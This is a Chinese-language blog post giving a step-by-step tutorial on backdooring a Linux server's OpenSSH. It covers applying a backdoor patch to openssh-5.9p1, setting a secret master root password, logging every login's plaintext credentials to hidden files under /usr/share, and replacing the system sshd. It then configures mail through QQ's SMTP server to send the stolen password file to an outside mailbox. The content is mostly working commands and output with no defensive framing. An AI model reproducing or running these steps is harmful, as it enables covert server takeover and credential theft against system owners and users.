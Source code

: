```yaml
---
layout: post
title: 黑客是如何安装后门并窃取服务器密码的
categories:
- 今日头条
tags:
---
```

				上传后门程序：

0x06-openssh-5.9p1.patch.tar.gz #后门补丁程序

openssh-5.9p1.tar.gz #包括了sshd服务端和 客户端。

安装：

解压文件

[root@xinsz08 tmp]# tar zxvf openssh-5.9p1.tar.gz

[root@xinsz08 tmp]# tar -zxvf 0x06-openssh-5.9p1.patch.tar.gz

安装openssh-5.9p1并打补丁：补丁， 用一些文件替换原来的文件。

[root@xinsz08 tmp]# cd openssh-5.9p1.patch/

[root@xinsz08 openssh-5.9p1.patch]# cp sshbd5.9p1.diff ../openssh-5.9p1

[root@xinsz08 openssh-5.9p1.patch]# cd ../openssh-5.9p1

[root@xinsz08 openssh-5.9p1]#patch < sshbd5.9p1.diff #打补丁

![](http://p1.pstatp.com/large/71e0001e719b321dbe2)

注： 使用0x06-openssh-5.9p1.patch.tar.gz #后门补丁包中的sshbd5.9p1.diff文件修改了 sshd和ssh客户相关的文件。

修改劫持root密码文件夹的目录和默认的root后门密码

注： Linux中一个帐号只有一个密码。 比如root帐号，只有一个密码：123456

一个帐号root有两个密码。 一个密码是正常使用的：123456，另一个密码是后门密码： mkinge

[root@xinsz08 openssh-5.9p1]# vim /tmp/openssh-5.9p1/includes.h 

找到：

改：

#define ILOG "/tmp/ilog"  //这是记录本机帐号密码

#define OLOG "/tmp/olog" //这是记录远程帐号密码

#define SECRETPW "apaajaboleh" //你后门密码

#endif /* INCLUDES_H */

为：

177 #define ILOG "/usr/share/ifile"

178 #define OLOG "/usr/share/ofile"

179 #define SECRETPW "mkinge"

安装：安装打了补丁sshd服务，替换原来的sshd服务。

 [root@xinsz08 openssh-5.9p1]# ./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5

注： 检查系统环境，将软件包安装到/usr目录下。 

--with-pam #支持pam认证

--with-kerberos5 #支持kerberos认证

[root@xinsz08 openssh-5.9p1]# make -j 4 # make编译： 把源代码编译成可执行的二进制文件。 -j 4以4个进程同时编译。 速度快。

[root@xinsz08 openssh-5.9p1]# make install #安装

![](http://p3.pstatp.com/large/723000095acf0810c33)

测试：

当用户再次远程登录后,

[root@xinsz08 ~]# ls /usr/share/ifile

/usr/share/ifile

[root@xinsz08 ~]# cat /usr/share/ifile

user:password -->root:123456

到这里我们密码劫持成功了

测试2：root的后门密码

注： Linux中一个帐号只有一个密码。 比如root帐号，只有一个密码：123456

安装后门程序后：

一个帐号root有两个密码。 一个密码是正常使用的：123456，另一个密码是后门密码： mkinge



[root@xinsz08 ~]# echo 234567 | passwd --stdin root

[root@xinsz08 openssh-5.9p1]# ssh root@192.168.1.63

root@192.168.1.63's password:mkinge

Last login: Sat Aug 29 10:29:33 2015 from 192.168.1.224

[root@xinsz08 ~]# cat /usr/share/ofile

user:password@host --> root:mkinge@192.168.1.63

注：Linux系统中一个用户名对应一个密码。 一个root帐号对应两个密码。

注：但是所有密码还是在别人的服务器上，怎么把密码整到自己邮箱？

自动发送邮件：这里以QQ的smtp服务器为例

LINUX下通过外部QQ的SMTP发邮件

[root@xinsz08 ~]# vim /etc/mail.rc

set from=1273815479@qq.com smtp=smtp.qq.com

set smtp-auth-user=1273815479 smtp-auth-password= smtp-auth=login

注：

set from=815479@qq.com #指定发件人的邮箱，这里我们就写成和收件人的邮箱一样。

set smtp-auth-user=815479 #写自己发件人的邮箱帐号

smtp-auth-password=123456  #写自己发件人的邮箱密码

测试：

[root@xinsz08 ~]# mail -s "demo title" 1273815479@qq.com < /usr/share/ifile

好了，现在你可以看一下，是否收到了邮件，同时在改几次密码，你会发现无论怎么改密码都会发到你的邮箱里了。